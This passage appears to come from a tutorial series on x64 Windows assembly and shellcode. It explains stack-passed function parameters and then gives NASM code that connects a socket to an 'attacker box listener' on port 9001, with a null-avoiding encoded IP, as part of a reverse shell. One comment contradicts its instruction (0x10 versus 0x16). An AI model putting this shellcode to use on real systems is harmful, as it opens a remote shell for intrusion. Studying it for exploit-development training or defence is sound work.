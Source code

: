 I'd like to point out that this is the first instance in our Assembly and Shellcode series that we have more than 4 parameters being passed into our function call.  

Here's how things are laid out here:

- 1st parameter (**RCX**) = 2.  By the way, **CL** is the lower 8 bit portion of the **RCX** register.  It goes: `RCX`, `ECX`, `CX`, and `CL`.
- 2nd parameter (**RDX**) = 1
- 3rd parameter (**r8**) = 6.  `r8b` is the lower 8 bit value in the `r8` register.
- 4th parameter (**r9**) - 0.
  
The **5th** parameter and **6th** parameters are not passed into registers but rather directly onto the stack, as follows:

- 0x0 = 0 = RCX
- 0x8 = 8 = RDX
- 0x10 = 16 = R8
- 0x18 = 24 = R9
- 0x20 = 32 = [rsp+0x20] our 5th parameter where we simply pass the value 0 into [rsp+0x20]
- 0x28 = 40 = [rsp+0x28] our 6th parameter where we simply pass the value 0 into [rsp+0x28]

***Connect our socket to our attacker box listener!!!***
-

```nasm
; Initiate Socket Connection
    mov r13, rax                ; Store SOCKET handle in r13 for future needs
    mov rcx, r13                ; Our socket handle as parameter 1
    xor rax,rax                 ; rax = 0
    inc rax                     ; rax = 1
    inc rax                     ; rax = 2
    mov [rsp], rax              ; AF_INET = 2
    mov ax, 0x2923              ; Port 9001
    mov [rsp+2], ax             ; our Port
    ;mov rax, 0x0100007F        ; IP 127.0.0.1 (I use virtual box with port forwarding, hence the localhost addr)
    mov rax, 0xFFFFFFFFFEFFFF80 ; 127.0.0.1 encoded with NOT to avoid NULLs
    not rax                     ; decoded value
    mov [rsp+4], rax            ; our IP
    lea rdx,[rsp]               ; Save pointer to RDX
    mov r8b, 0x16               ; Move 0x10 (decimal 16) to namelen
    xor r9,r9             
    push r9                     ; NULL
    push r9                     ; NULL 
    push r9                     ; NULL
    add rsp, 8
    sub rsp, 0x60               ; This is somewhat problematic. needs to be a high value to account for the values pushed to the stack
    sub rsp, 0x60               ; in short, making space on the stack for stuff to get populated after executing WSAConnect
    call rdi                    ; Call WSAConnect
```

**Here's the API documentation:**
